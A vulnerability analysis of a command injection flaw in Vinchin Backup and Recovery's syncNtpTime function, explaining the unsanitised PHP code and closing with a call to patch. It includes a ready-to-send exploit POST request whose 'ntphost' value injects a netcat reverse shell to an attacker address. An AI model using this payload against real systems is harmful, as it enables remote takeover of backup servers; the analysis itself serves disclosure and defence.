

**Deep Dive into the syncNtpTime Function Vulnerability in Vinchin Backup and Recovery**



### Vulnerability Overview:

The `syncNtpTime` function in Vinchin Backup and Recovery's `SystemHandler.class.php` file presents a critical vulnerability. This function is intended for synchronizing the system's time with an NTP (Network Time Protocol) server.

### Function Analysis:

**Function Prototype**:
```php
public function syncNtpTime($params)
```

1. **Parameter Handling**:
   The function accepts an array `$params`, extracting the `ntphost` key:
   ```php
   $ntphost = $params['ntphost'];
   ```

2. **Initial NTP Service Stop Command**:
   It begins by stopping the NTP service to allow manual synchronization:
   ```php
   $cmd = "systemctl stop ntpd";
   ```

3. **Manual Synchronization Command**:
   The critical part is where it attempts to synchronize the system's time manually:
   ```php
   $cmd = "ntpdate " . $ntphost;
   ```

   Here, the `$ntphost` variable, derived from user input, is concatenated directly into the command line string. This introduces a command injection vulnerability since there are no checks or sanitization on the `ntphost` parameter.

4. **Execution of Command**:
   The concatenated command is executed:
   ```php
   exec($cmd, $info);
   ```

### Exploitation:

The vulnerability can be exploited by injecting commands into the `ntphost` parameter. When the function concatenates this parameter into the command line, the injected command is executed with the privileges of the web server's process.

#### Exploit Example:

An attacker can send a specially crafted HTTP POST request to trigger this vulnerability:

```
POST /api/ HTTP/1.1
Host: 192.168.1.9
Cookie: BackupSystem=cqle200rsnt5a7r0ug4v9vl9bd;
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

m=8&f=syncNtpTime&p={"ntphost":"time.nist.gov;nc -e /bin/bash 192.168.1.5 1338"}
```

In this request, the attacker has appended a command (`nc -e /bin/bash 192.168.1.5 1338`) to the `ntphost` parameter. This command sets up a reverse shell to the attacker's machine (`192.168.1.5`), allowing remote access to the server running the Vinchin Backup and Recovery system.

### Conclusion:

The `syncNtpTime` function's vulnerability is a classic example of command injection. The lack of proper input validation and sanitization allows an attacker to execute arbitrary commands on the server. This poses a severe security risk, potentially leading to full system compromise.

It is imperative for Vinchin to address this vulnerability promptly by implementing rigorous input validation and sanitization mechanisms in their codebase. Users of Vinchin Backup and Recovery should apply any patches or updates provided by Vinchin to mitigate this risk.